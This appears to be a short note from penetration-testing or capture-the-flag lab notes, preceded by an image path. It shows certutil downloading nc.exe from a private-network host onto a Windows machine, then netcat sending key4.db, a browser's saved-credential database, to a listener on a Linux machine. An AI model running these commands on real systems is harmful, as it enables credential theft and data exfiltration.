 # Download file in Windows Machine.

certutil -urlcache -f http://10.9.3.223:80/nc.exe nc.exe

# Transfer file from Windows Machine to Linux (netcat)

nc -nv 10.9.3.223 443 < key4.db (on windows machine)

nc -nvlp 443 > key4.db (on Linux Machine)
